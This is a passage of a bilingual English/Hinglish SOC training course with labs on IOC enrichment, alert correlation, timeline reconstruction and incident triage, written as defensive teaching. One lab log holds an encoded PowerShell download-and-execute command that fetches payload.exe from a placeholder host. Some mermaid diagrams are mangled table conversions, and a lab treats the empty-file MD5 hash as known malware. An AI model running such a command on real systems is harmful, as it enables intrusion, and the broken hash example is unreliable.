Hinglish: IOC ek evidence hai jo batata hai ki system compromised ho sakta hai—jaise attacker ka fingerprint.

Layer 2: Technical Explanation
An IOC is a forensic artifact that indicates a potential security breach. IOCs can be:

Atomic – Simple indicators (IP, hash)

Computed – Derived from analysis (behavioral patterns)

Behavioral – Complex patterns of activity

Types of IOCs
Type	Example	Purpose
IP Address	203.0.113.45	Identify malicious infrastructure
Domain	malicious-domain.com	Identify command and control
URL	http://malicious.com/payload.exe	Identify malicious resources
Hash	d41d8cd98f00b204e9800998ecf8427e	Identify malicious files
Email	attacker@malicious.com	Identify phishing sources
Filename	payload.exe	Identify malicious files
Registry Key	HKLM\SOFTWARE\Malware	Identify persistence
Malware Family	Emotet, Cobalt Strike	Identify attack patterns
5.2 IOC vs IOA vs TTP
Term	Definition	Example
IOC	Indicator of Compromise	IP 203.0.113.45
IOA	Indicator of Attack	15 failed logins in 5 minutes
TTP	Tactics, Techniques, Procedures	Brute force, credential theft
Key Difference:

IOCs are specific (hash, IP)

IOAs are behavioral (patterns of activity)

TTPs are strategic (how attackers operate)

Hinglish: IOC specific hota hai (jaise ek IP), IOA behavior-based hai (jaise pattern), TTPs strategy-level hai (jaise attacker ka tarika).

5.3 IOC Enrichment
What is IOC Enrichment?
IOC enrichment is the process of adding context to an IOC. Instead of just knowing "IP 203.0.113.45 is suspicious," enrichment tells you:

Who owns this IP?

What malware is associated with it?

Has it been seen in other attacks?

What is the confidence level?

IOC Enrichment Workflow
```mermaid
graph TD
    A["Raw IOC"]
    A --> B["Query Intelligence Sources"]
    B --> C["Collect Additional Information"]
    C --> D["Correlate with Other IOCs"]
    D --> E["Assess Confidence"]
    E --> F["Document Enriched IOC"]
    F --> G["Intelligence Sources"]
    G --> H["VirusTotal"]
    H --> I["Aspect	Description"]
    I --> J["Purpose	File hash reputation and malware detection"]
    J --> K["What it provides	Detection ratio, malware family, file metadata"]
    K --> L["How SOC uses it	Check if a file is known malware"]
    L --> M["Limitations	Unknown files may still be malicious"]
    M --> N["Privacy	File hashes are public"]
    N --> O["AbuseIPDB"]
    O --> P["Aspect	Description"]
    P --> Q["Purpose	IP address reputation"]
    Q --> R["What it provides	Abuse reports, categories, confidence score"]
    R --> S["How SOC uses it	Check if an IP is known for malicious activity"]
    S --> T["Limitations	Relies on user reports"]
    T --> U["AlienVault OTX"]
    U --> V["Aspect	Description"]
    V --> W["Purpose	Open threat intelligence exchange"]
    W --> X["What it provides	IOCs, pulses, threat intelligence"]
    X --> Y["How SOC uses it	Research IOCs and find related indicators"]
    Y --> Z["Limitations	Community-driven, quality varies"]
    Z --> [["URLScan"]
    [ --> \["Aspect	Description"]
    \ --> ]["Purpose	URL and website analysis"]
    ] --> ^["What it provides	Screenshots, network requests, behavior"]
    ^ --> _["How SOC uses it	Investigate suspicious URLs"]
    _ --> `["Limitations	May not execute complex JavaScript"]
    ` --> a["MalwareBazaar"]
    a --> b["Aspect	Description"]
    b --> c["Purpose	Malware sample repository"]
    c --> d["What it provides	Malware samples, tags, signatures"]
    d --> e["How SOC uses it	Research malware families"]
    e --> f["Limitations	Samples may be old"]
```
PRACTICAL LAB 5: IOC Investigation
Lab Title: "Follow the Indicator"
Objective
Learn to identify, classify, and enrich Indicators of Compromise using public intelligence sources.

Scenario
During a security incident investigation, you have identified the following potential IOCs:

text
1. IP Address: 203.0.113.45
2. File Hash (MD5): d41d8cd98f00b204e9800998ecf8427e
3. Domain: malware-c2.example.com
4. URL: http://malware-c2.example.com/payload.exe
5. Email: phisher@malicious-domain.com
Difficulty
Beginner

Estimated Time
30 minutes

Tools
Web browser

VirusTotal

AbuseIPDB

AlienVault OTX

URLScan

Step-by-Step Procedure
Step 1: Investigate the IP Address

Go to AbuseIPDB (www.abuseipdb.com)

Enter IP: 203.0.113.45

Review:

Abuse confidence score

Categories (e.g., Brute-Force, Malware)

Number of reports

Country of origin

Step 2: Investigate the File Hash

Go to VirusTotal (www.virustotal.com)

Enter hash: d41d8cd98f00b204e9800998ecf8427e

Review:

Detection ratio (e.g., 45/70)

Malware family name

File type and size

First submission date

Step 3: Investigate the Domain

Go to AlienVault OTX (otx.alienvault.com)

Enter domain: malware-c2.example.com

Review:

Pulse references

Related indicators

Threat intelligence

Step 4: Investigate the URL

Go to URLScan (urlscan.io)

Enter URL: http://malware-c2.example.com/payload.exe

Review:

Screenshot of the page

Network requests

IP address resolution

Step 5: Create IOC Table

IOC Type	IOC Value	Enrichment Result	Confidence	Classification
IP	203.0.113.45	90% abuse score, brute-force category	High	Malicious
Hash	d41d8cd98f00...	45/70 detection, "Trojan.Generic"	High	Malicious
Domain	malware-c2.example.com	Associated with APT group	Medium	Suspicious
URL	http://.../payload.exe	Malicious download	High	Malicious
Email	phisher@...	Reported in phishing campaigns	Medium	Suspicious
Expected Output
IOC Investigation Report:

text
IOC Investigation Summary
========================
Investigator: [Your Name]
Date: 2024-11-15

Findings:
- IP 203.0.113.45 is confirmed malicious (AbuseIPDB score: 90%)
- Hash d41d8cd98f00... is detected by 45/70 antivirus engines as Trojan.Generic
- Domain malware-c2.example.com is associated with known threat actor activity
- URL http://malware-c2.example.com/payload.exe is a known malware download

Recommendations:
- Block all identified IOCs at the firewall and endpoint
- Search SIEM for historical connections to these IOCs
- Escalate to incident response team
Key Concepts
IOCs are evidence of compromise

Enrichment adds context to IOCs

Multiple sources provide different perspectives

Confidence levels help prioritize response

Common Mistakes
Trusting a single source – Always cross-reference

Ignoring confidence levels – Not all IOCs are equally reliable

Not documenting – Always record your findings


---

# SECURITY ALERT CORRELATION

6.1 Why Single Alerts Are Insufficient
A single alert is like seeing one piece of a puzzle—it doesn't tell the whole story. Attackers rarely perform a single action; they execute a sequence of steps. By correlating alerts, we can see the full picture.

Hinglish: Ek alert se poori story nahi samajh aati. Multiple alerts ko connect karke attack ka complete picture milta hai.

6.2 What is Correlation?
Alert correlation is the process of connecting multiple security events to determine whether they form one larger attack pattern.

Types of Correlation
Type	Description	Example
Temporal	Events occurring in sequence	Login → Command → File creation
User-based	Events involving same user	Failed logins for jsmith → Successful login → Process execution
Host-based	Events on same system	Malware detection on WS-FINANCE-01 → Network connection to C2
IP-based	Events from same IP	Attacks from 203.0.113.45 targeting multiple users
Process-based	Events involving same process	PowerShell execution → Network connection
IOC-based	Events sharing IOCs	Multiple systems connecting to same malicious IP
6.3 Attack Chain Correlation
Realistic Attack Example
```mermaid
graph TD
    A["\(1\) 4625: jsmith - Failed login \(203.0.113.45\)"]
    A --> B["↓ \(50 failures over 10 minutes\)"]
    B --> C["\(2\) 4624: jsmith - Successful login \(203.0.113.45\)"]
    C --> D["↓ \(Attacker now has access\)"]
    D --> E["\(3\) 4688: powershell.exe launched by jsmith"]
    E --> F["↓ \(Attacker running commands\)"]
    F --> G["\(4\) 4688: payload.exe downloaded and executed"]
    G --> H["↓ \(Malware installed\)"]
    H --> I["\(5\) 5156: Network connection to 203.0.113.100"]
    I --> J["↓ \(Command and control\)"]
    J --> K["\(6\) 4663: Sensitive file accessed"]
    K --> L["↓ \(Data theft\)"]
    L --> M["How These Events Form One Story"]
    M --> N["Step	Event	Role in Attack"]
    N --> O["1	Failed logins	Brute force attempt"]
    O --> P["2	Successful login	Attacker gains access"]
    P --> Q["3	PowerShell execution	Attacker runs commands"]
    Q --> R["4	Payload execution	Malware deployed"]
    R --> S["5	C2 connection	Malware \"phones home\""]
    S --> T["6	File access	Data theft"]
    T --> U["Correlation Questions"]
    U --> V["When correlating alerts, ask:"]
    V --> W["Do these events share a common attribute? \(User, IP, host, time\)"]
    W --> X["Do they form a logical sequence?"]
    X --> Y["Is there a temporal relationship?"]
    Y --> Z["What is the attack story?"]
```
PRACTICAL LAB 6: Alert Correlation
Lab Title: "Connect the Dots"
Objective
Correlate multiple alerts to identify a complete attack chain.

Scenario
You have received 10 alerts from your SIEM. Some are related, some are not. Your task is to identify which alerts belong to the same incident and reconstruct the attack story.

Alerts
text
Alert A: 4625 - Failed login for jsmith from 203.0.113.45 (09:23:00)
Alert B: 4625 - Failed login for jsmith from 203.0.113.45 (09:23:05)
Alert C: 4625 - Failed login for jsmith from 203.0.113.45 (09:23:10)
Alert D: 4625 - Failed login for bjones from 192.168.1.50 (09:24:00)
Alert E: 4624 - Successful login for jsmith from 203.0.113.45 (09:28:15)
Alert F: 4688 - powershell.exe launched by jsmith (09:29:00)
Alert G: 4688 - C:\Windows\Temp\payload.exe launched (09:29:15)
Alert H: 5156 - Connection to 203.0.113.100 from WS-FINANCE-01 (09:29:30)
Alert I: 4625 - Failed login for mwilliams from 203.0.113.45 (09:35:00)
Alert J: 4625 - Failed login for mwilliams from 203.0.113.45 (09:35:05)
Step-by-Step Procedure
Step 1: Group by Common Attributes

Which alerts share:

Same user? (jsmith: A, B, C, E, F, G, H)

Same IP? (203.0.113.45: A, B, C, E, I, J)

Same host? (WS-FINANCE-01: H)

Step 2: Analyze Temporal Sequence

Order the related alerts by time:

text
09:23:00 - A (failed login)
09:23:05 - B (failed login)
09:23:10 - C (failed login)
09:28:15 - E (successful login)
09:29:00 - F (PowerShell)
09:29:15 - G (payload.exe)
09:29:30 - H (C2 connection)
Step 3: Identify Unrelated Alerts

Alert D: Different user, different IP → Unrelated

Alerts I, J: Different user, same IP → Possibly related (password spraying)

Step 4: Reconstruct the Attack Story

text
Attack Story: Brute Force to Compromise

1. Attacker (203.0.113.45) performs brute force against jsmith
   (Alerts A, B, C - 3 failures shown, likely more)

2. Attacker successfully logs in as jsmith
   (Alert E - successful login from attacker IP)

3. Attacker launches PowerShell
   (Alert F - suspicious command-line tool)

4. Attacker downloads and executes malware
   (Alert G - payload.exe from Temp folder)

5. Malware connects to command and control
   (Alert H - connection to C2 server)

Severity: Critical
Confidence: High
Response: Immediate containment required
Expected Output
Correlation Summary:

Attack Phase	Alerts	Evidence
Initial Access	A, B, C	Failed logins from external IP
Execution	E	Successful login from external IP
Execution	F	PowerShell launched
Persistence/Execution	G	payload.exe executed from Temp
C2 Communication	H	Connection to C2 IP
Unrelated Alerts:

Alert	Reason
D	Different user, different IP, different time
I, J	Different user, may be password spraying attempt
Key Concepts
Correlation connects related alerts

Temporal sequence reveals attack story

Not all alerts are related

The attack story is more important than individual alerts

Common Mistakes
Assuming all alerts are related – False positives and unrelated events exist

Ignoring temporal order – Sequence matters

Not looking for missing pieces – What alerts are missing?


---

# INCIDENT TIMELINE RECONSTRUCTION

7.1 Why Timelines Matter
A timeline is a chronological sequence of events that tells the story of an incident. Timelines are essential because they:

Show the sequence of attacker actions

Help identify gaps in detection

Support forensic analysis

Enable legal and regulatory reporting

Hinglish: Timeline se pata chalta hai ki attack kaise hua—pehle kya hua, phir kya, aur kis sequence mein. Yeh investigation ka roadmap hai.

7.2 Timeline Reconstruction Process
Evidence Ordering
text
1. Collect all relevant events
2. Normalize timestamps (convert to UTC)
3. Sort by timestamp
4. Group by phase of attack
5. Identify gaps
6. Create timeline table
7. Interpret the sequence
Timeline Table Structure
Timestamp	Host	User	Event	Source	IOC	Interpretation	Confidence
09:23:00	WS-FINANCE-01	jsmith	4625 (Failed login)	203.0.113.45	203.0.113.45	Brute force attempt	High
09:28:15	WS-FINANCE-01	jsmith	4624 (Successful login)	203.0.113.45	203.0.113.45	Attacker gained access	High
09:29:00	WS-FINANCE-01	jsmith	4688 (PowerShell)	Local	-	Attacker executing commands	High
09:29:15	WS-FINANCE-01	jsmith	4688 (payload.exe)	Local	payload.exe	Malware executed	High
09:29:30	WS-FINANCE-01	SYSTEM	5156 (Network connect)	203.0.113.100	203.0.113.100	C2 communication	High
Attack Phases
Phase	Description	Evidence
Reconnaissance	Attacker gathers information	Scans, DNS queries
Initial Access	Attacker gains entry	Failed → successful login
Execution	Attacker runs code	PowerShell, suspicious processes
Persistence	Attacker maintains access	Scheduled tasks, registry changes
Discovery	Attacker explores environment	Network scans, file access
Lateral Movement	Attacker moves to other systems	RDP to other hosts
Collection	Attacker gathers data	File access, data transfers
Exfiltration	Attacker steals data	Large outbound transfers
PRACTICAL LAB 7: Timeline Reconstruction
Lab Title: "Build the Timeline"
Objective
Reconstruct an incident timeline from multiple log sources.

Scenario
PIET [Panipat Institute of Engineering & Technology] has experienced a security incident. You have collected the following events from various sources. Your task is to reconstruct the timeline.

Dataset
text
[2024-11-15 09:22:50] Firewall: Connection from 203.0.113.45 to WS-FINANCE-01 port 3389 (RDP)
[2024-11-15 09:23:01] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:05] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:10] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:15] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:20] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:28:15] Security: 4624 | jsmith | 203.0.113.45 | 10 | N/A
[2024-11-15 09:29:00] Security: 4688 | jsmith | powershell.exe | N/A | N/A
[2024-11-15 09:29:15] Security: 4688 | jsmith | C:\Temp\payload.exe | N/A | N/A
[2024-11-15 09:29:30] Firewall: Connection from WS-FINANCE-01 to 203.0.113.100 port 4444
[2024-11-15 09:30:00] Security: 4698 | jsmith | Scheduled task created | N/A | N/A
[2024-11-15 09:35:00] Security: 4624 | jsmith | 192.168.1.100 | 3 | N/A
Step-by-Step Procedure
Step 1: Normalize Timestamps

All times are in UTC. No conversion needed.

Step 2: Sort Chronologically

Events in order:

09:22:50 - Firewall: RDP connection from 203.0.113.45

09:23:01 - Security: 4625 (jsmith, 203.0.113.45)

09:23:05 - Security: 4625 (jsmith, 203.0.113.45)

09:23:10 - Security: 4625 (jsmith, 203.0.113.45)

09:23:15 - Security: 4625 (jsmith, 203.0.113.45)

09:23:20 - Security: 4625 (jsmith, 203.0.113.45)

09:28:15 - Security: 4624 (jsmith, 203.0.113.45)

09:29:00 - Security: 4688 (PowerShell)

09:29:15 - Security: 4688 (payload.exe)

09:29:30 - Firewall: C2 connection

09:30:00 - Security: 4698 (Scheduled task)

09:35:00 - Security: 4624 (jsmith, 192.168.1.100)

Step 3: Interpret Each Event

Event	Interpretation
1	Attacker initiates RDP connection
2-6	Brute force attempts
7	Successful login (attacker access)
8	Attacker uses PowerShell
9	Malware executed
10	C2 connection established
11	Persistence created
12	Another login (possibly legitimate user)
Step 4: Identify Attack Phases

Phase	Events	Time
Reconnaissance	1	09:22:50
Initial Access	2-7	09:23:01 - 09:28:15
Execution	8-9	09:29:00 - 09:29:15
C2 Communication	10	09:29:30
Persistence	11	09:30:00
Normal Activity	12	09:35:00
Expected Output
Timeline Table:

Time	Event	Interpretation	Phase
09:22:50	RDP connection from 203.0.113.45	Attacker reconnaissance	Reconnaissance
09:23:01-09:23:20	5 failed logins (jsmith)	Brute force	Initial Access
09:28:15	Successful login (jsmith)	Attacker access	Initial Access
09:29:00	PowerShell executed	Attacker commands	Execution
09:29:15	payload.exe executed	Malware deployed	Execution
09:29:30	Connection to 203.0.113.100	C2 communication	C2
09:30:00	Scheduled task created	Persistence	Persistence
09:35:00	Login from internal IP	Possibly legitimate user	Normal
Key Concepts
Timelines tell the attack story

Normalize timestamps (UTC)

Identify attack phases

Look for gaps in detection

Common Mistakes
Not normalizing time zones – Different systems may use different time zones

Missing events – Check all log sources

Not identifying phases – The sequence matters


---

# SOC INCIDENT TRIAGE & RESPONSE

8.1 Incident Classification
Classification Categories
Classification	Definition
False Positive	Alert is triggered by normal activity
Benign	Activity is unusual but not malicious
Suspicious	Activity is unusual and potentially malicious
Confirmed Incident	Malicious activity is confirmed
Critical Incident	Active breach with significant impact
Decision Framework

8.2 Severity, Priority, and Impact
Severity Assessment
Factor	Consideration
Asset Criticality	How important is the affected system?
Data Sensitivity	What data is at risk?
User Privilege	What access does the user have?
Scope	How many systems are affected?
Evidence Quality	How strong is the evidence?
Attacker Capability	How sophisticated is the attack?
Impact Assessment
Impact Level	Description	Examples
Low	Minimal impact, easily recoverable	Single workstation compromised
Medium	Moderate impact, some data at risk	Multiple workstations, some data accessed
High	Significant impact, data breach likely	Server compromised, sensitive data exfiltrated
Critical	Severe impact, business operations affected	Ransomware, complete network compromise
Confidence Assessment
Confidence	Description
Low	Limited evidence, possible false positive
Medium	Reasonable evidence, multiple indicators
High	Strong evidence, consistent with known attacks
8.3 Incident Response Process (NIST SP 800-61r3)
The current NIST incident response guidance (SP 800-61 Revision 3, April 2025) describes how to incorporate incident response into cybersecurity risk management. The six Functions of the NIST Cybersecurity Framework (CSF) 2.0 all play vital roles in incident response.

Incident Response Lifecycle
text
┌─────────────────────────────────────────────────────────────┐
│                    PREPARATION                              │
│           (Establish IR capability, train staff)            │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                  DETECTION & ANALYSIS                       │
│        (Identify incidents, triage, investigate)            │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                   CONTAINMENT                               │
│           (Limit the impact of the incident)                │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                   ERADICATION                               │
│              (Remove the threat)                            │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    RECOVERY                                 │
│            (Restore systems to normal)                      │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                 LESSONS LEARNED                             │
│            (Improve for future incidents)                   │
└─────────────────────────────────────────────────────────────┘
Containment Strategies
Strategy	Description	When to Use
Isolation	Disconnect affected systems from network	Active malware/ransomware
Account Disable	Disable compromised accounts	Credential theft
IP Blocking	Block malicious IPs at firewall	Attacks from known malicious IPs
Application Restriction	Block specific applications	Malware execution
Eradication Strategies
Strategy	Description
Malware Removal	Remove malicious files
Patch Application	Fix vulnerabilities
Account Reset	Reset compromised passwords
System Reimage	Rebuild compromised systems
Recovery Strategies
Strategy	Description
System Restoration	Restore from clean backups
Monitoring	Enhanced monitoring after recovery
Validation	Verify systems are clean
PRACTICAL LAB 8: Incident Triage and Response
Lab Title: "Make the Call"
Objective
Perform complete incident triage and recommend response actions.

Scenario
You are an L1 SOC analyst at PIET [Panipat Institute of Engineering & Technology]. You have received the following alert. Perform triage and recommend response.

Alert
text
ALERT ID: INC-2024-001
TIMESTAMP: 2024-11-15 09:35:00 UTC
TITLE: Suspicious Process Execution on Finance Server
SEVERITY: High
AFFECTED SYSTEM: WS-FINANCE-01
AFFECTED USER: jsmith
DETAILS:
- Event ID 4688: powershell.exe executed with encoded command
- Event ID 4688: C:\Temp\payload.exe executed
- Event ID 5156: Network connection to 203.0.113.100 port 4444
- Multiple failed logins for jsmith from 203.0.113.45 earlier
- Successful login for jsmith from 203.0.113.45 at 09:28:15
Step-by-Step Procedure
Step 1: Validate the Alert

Q: Is this a real security event?

Expected answer: Yes—multiple indicators (failed logins, successful login from external IP, suspicious process execution, C2 connection)

Step 2: Assess Severity

Factor	Assessment
Asset Criticality	High (Finance server)
Data Sensitivity	High (Financial data)
User Privilege	Finance user with sensitive access
Scope	Single system so far
Evidence Quality	High (multiple correlated events)
Severity: Critical

Step 3: Determine Classification

Classification	Decision
False Positive	No
Benign	No
Suspicious	No
Confirmed Incident	Yes
Critical Incident	Yes
Step 4: Recommend Containment

Isolate WS-FINANCE-01 – Disconnect from network

Disable jsmith account – Prevent further access

Block IP 203.0.113.45 – At firewall

Block IP 203.0.113.100 – At firewall

Step 5: Recommend Eradication

Analyze payload.exe – Determine malware type

Remove malicious files – payload.exe, any other suspicious files

Reset jsmith password – Force password change

Check for persistence – Scheduled tasks, registry entries

Step 6: Recommend Recovery

Restore from backup – If data was affected

Enhanced monitoring – Monitor jsmith account and WS-FINANCE-01

Patch vulnerabilities – Address any vulnerabilities exploited

Step 7: Escalate

Escalation To	Reason
L2 Analyst	Deep investigation of malware and scope
Incident Response Team	Active compromise requiring response
Management	Critical incident notification
Expected Output
Incident Triage Report:

text
INCIDENT TRIAGE REPORT
=====================
Incident ID: INC-2024-001
Reported: 2024-11-15 09:35:00 UTC
Analyst: [Your Name]

ALERT SUMMARY:
Suspicious process execution on WS-FINANCE-01 involving PowerShell,
payload.exe, and C2 communication.

INVESTIGATION SUMMARY:
- Multiple failed logins for jsmith from external IP (203.0.113.45)
- Successful login from same external IP
- PowerShell execution with encoded command
- payload.exe executed from Temp folder
- Network connection to C2 IP (203.0.113.100:4444)

CLASSIFICATION: Critical Incident

SEVERITY: Critical
CONFIDENCE: High
SCOPE: WS-FINANCE-01 (possibly more)

CONTAINMENT RECOMMENDATIONS:
1. Isolate WS-FINANCE-01 from the network
2. Disable jsmith account
3. Block IPs 203.0.113.45 and 203.0.113.100

ERADICATION RECOMMENDATIONS:
1. Remove payload.exe and related files
2. Reset jsmith password
3. Check for persistence mechanisms

RECOVERY RECOMMENDATIONS:
1. Restore from clean backup if needed
2. Implement enhanced monitoring
3. Patch vulnerabilities

ESCALATION:
- L2 Analyst
- Incident Response Team
- Management (notification)

ANALYST CONCLUSION:
This is a confirmed critical incident. The evidence shows a successful
brute-force attack followed by malware execution and C2 communication.
Immediate containment is required.
Key Concepts
Incident classification guides response

Severity is based on multiple factors

Containment comes before eradication

Documentation is critical throughout

Common Mistakes
Delaying containment – Act quickly to limit damage

Not documenting decisions – Record your reasoning

Insufficient escalation – Don't hesitate to escalate when needed


---

# Final Practical End-to-End SOC Investigation

Lab Title: "PIET [Panipat Institute of Engineering & Technology] Authentication Incident"
Objective
Perform a complete end-to-end SOC investigation, from alert to report.

Scenario
PIET [Panipat Institute of Engineering & Technology]'s SIEM has generated multiple alerts. You must investigate all alerts, determine whether an incident occurred, and produce a complete investigation report.

Dataset
text
[2024-11-15 09:22:00] Firewall: Port scan from 203.0.113.45 to WS-FINANCE-01
[2024-11-15 09:23:01] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:05] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:10] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:15] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:20] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:25] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:30] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:35] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:40] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:45] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:23:50] Security: 4625 | jsmith | 203.0.113.45 | 10 | Bad password
[2024-11-15 09:28:15] Security: 4624 | jsmith | 203.0.113.45 | 10 | N/A
[2024-11-15 09:29:00] Security: 4688 | jsmith | powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxAC8AcABhAHkAbABvAGEAZAAuAGUAeABlACcAKQA=
[2024-11-15 09:29:15] Security: 4688 | jsmith | C:\Users\jsmith\AppData\Local\Temp\payload.exe
[2024-11-15 09:29:30] Firewall: Connection from WS-FINANCE-01 to 203.0.113.100 port 4444
[2024-11-15 09:30:00] Security: 4698 | jsmith | Scheduled task created: "WindowsUpdate"
[2024-11-15 09:30:15] Security: 4672 | jsmith | Special privileges assigned
[2024-11-15 09:30:30] Security: 4720 | SYSTEM | New user account created: "support_admin"
[2024-11-15 09:31:00] Security: 4728 | SYSTEM | support_admin added to Domain Admins
[2024-11-15 09:35:00] Security: 4624 | support_admin | 203.0.113.45 | 10 | N/A
Student Task
Produce a complete investigation report with the following sections:

Alert Summary – What alerts were received?

Investigation Summary – What did you investigate?

Evidence – What evidence did you find?

Timeline – Reconstruct the complete timeline

IOC Table – Extract all IOCs

Classification – How do you classify this incident?

Severity – What is the severity?

Confidence – What is your confidence level?

Scope – What is the scope of the incident?

Recommendations – What containment, eradication, and recovery actions do you recommend?

Final Conclusion – Your overall assessment

Instructor Solution
Alert Summary:

Multiple alerts were generated:

Multiple failed logins (brute force attempt)

Successful login from external IP

Suspicious process execution (PowerShell with encoded command)

Malware execution from Temp folder

C2 network connection

Scheduled task creation (persistence)

Privilege escalation

New user account creation

New admin user login

Investigation Summary:

The investigation revealed a complete attack chain:

Attacker performed brute force against jsmith account

Attacker successfully logged in as jsmith

Attacker used PowerShell with encoded command to download and execute malware

Malware established C2 connection

Attacker created scheduled task for persistence

Attacker escalated privileges

Attacker created new admin account

Attacker logged in as new admin account

Timeline:

Time	Event	Interpretation
09:22:00	Port scan	Reconnaissance
09:23:01-09:23:50	10 failed logins	Brute force
09:28:15	Successful login	Attacker access
09:29:00	PowerShell encoded command	Execution
09:29:15	payload.exe executed	Malware deployment
09:29:30	C2 connection	C2 communication
09:30:00	Scheduled task	Persistence
09:30:15	Special privileges	Privilege escalation
09:30:30	support_admin created	Account creation
09:31:00	support_admin added to Domain Admins	Privilege escalation
09:35:00	support_admin login	Attacker access as admin
IOC Table:

Type	Value	Confidence
IP	203.0.113.45	High
IP	203.0.113.100	High
User	jsmith	High
User	support_admin	High
Hash	(payload.exe hash from analysis)	High
File	C:\Users\jsmith\AppData\Local\Temp\payload.exe	High
Classification: Critical Incident

Severity: Critical

Confidence: High

Scope: WS-FINANCE-01 compromised; domain administrator access achieved; entire domain potentially compromised

Recommendations:

Containment:

Isolate WS-FINANCE-01 immediately

Disable jsmith and support_admin accounts

Block IPs 203.0.113.45 and 203.0.113.100

Reset all domain admin passwords

Eradication:

Remove payload.exe and related files

Remove scheduled task "WindowsUpdate"

Remove support_admin account

Reimage WS-FINANCE-01

Recovery:

Restore from clean backups if needed

Implement enhanced monitoring

Review and strengthen authentication policies

Final Conclusion:

This is a confirmed critical security incident. A successful brute-force attack led to full domain compromise. Immediate incident response is required. The attack involved multiple stages including initial access, execution, persistence, privilege escalation, and lateral movement preparation.

DAY 1 SUMMARY
Skills Acquired
SOC operations understanding

L1 analyst workflow

Windows event log analysis

Authentication attack detection

SIEM (Wazuh) investigation

IOC extraction and enrichment

Alert correlation

Timeline reconstruction

Incident triage and response

Tools Used
Tool	Purpose
Event Viewer	Windows log analysis
Wazuh Dashboard	SIEM investigation
VirusTotal	IOC enrichment
AbuseIPDB	IP reputation
AlienVault OTX	Threat intelligence
Important Event IDs
ID	Event
4624	Successful logon
4625	Failed logon
4634	Logoff
4648	Explicit credentials
4672	Special privileges
4688	Process creation
4698	Scheduled task created
4720	User account created
Day 1 Assessment
Multiple Choice Questions
What is a SIEM?
a) A firewall
b) A security monitoring and alerting platform
c) An antivirus
d) A password manager

Answer: b

Which event ID indicates a successful login?
a) 4625
b) 4624
c) 4688
d) 4698

Answer: b

What is the difference between brute force and password spraying?
a) Brute force uses multiple passwords against one account; password spraying uses one password against multiple accounts
b) Brute force is faster than password spraying
c) Password spraying uses more passwords
d) There is no difference

Answer: a

Short Answer Questions
What is an IOC? Provide three examples.

Answer: An Indicator of Compromise is evidence that suggests a system may be compromised. Examples: IP address, file hash, domain name.

Explain the L1 analyst workflow.

Answer: Alert → Validation → Triage → Context Gathering → Investigation → Severity Assessment → Escalation → Documentation

What is the purpose of alert correlation?

Answer: To connect related alerts and identify the complete attack story.

Scenario-Based Questions
You see 50 failed logins for the same account from the same IP in 5 minutes. What type of attack is this?

Answer: Brute force attack

After the failed logins, you see a successful login from the same IP. What does this indicate?

Answer: The attacker successfully guessed the password and gained access.

What should you do as an L1 analyst upon discovering a compromised account?

Answer: Disable the account, isolate affected systems, escalate to L2/incident response team, document findings.


---

---

## DAY 2: THREAT INTELLIGENCE & INVESTIGATIONS

---

# CYBER THREAT INTELLIGENCE FUNDAMENTALS

1.1 What is CTI?
Layer 1: Beginner Explanation
Cyber Threat Intelligence (CTI) is information about threats that helps organizations understand and defend against cyber attacks. It answers questions like:

Who is attacking us?

Why are they attacking?

How do they operate?

What are they likely to do next?

Hinglish: CTI information hai jo batati hai ki kaun attack kar raha hai, kyun kar raha hai, aur kaise. Yeh humein future attacks ke liye prepare karne mein madad karti hai.

Layer 2: Technical Explanation
CTI is evidence-based knowledge about existing or emerging threats that can be used to inform security decisions. It involves:

Collection – Gathering threat data from multiple sources

Analysis – Processing and interpreting the data

Dissemination – Sharing actionable intelligence with stakeholders

Layer 3: SOC Analyst Perspective
"Threat intelligence transforms raw data into actionable insights. Instead of just seeing an IP address, I learn that it belongs to a known ransomware group. This helps me prioritize my response and anticipate what they might do next."

1.2 Intelligence vs Information
Aspect	Information	Intelligence
Definition	Raw, unprocessed data	Processed, analyzed, actionable
Example	IP address 203.0.113.45	IP 203.0.113.45 is associated with APT group, used in recent attacks
Value	Limited without context	High—supports decision-making
1.3 Types of Threat Intelligence
By Level
Type	Audience	Purpose	Time Horizon
Strategic	Executives, Board	Understand risk landscape	Long-term
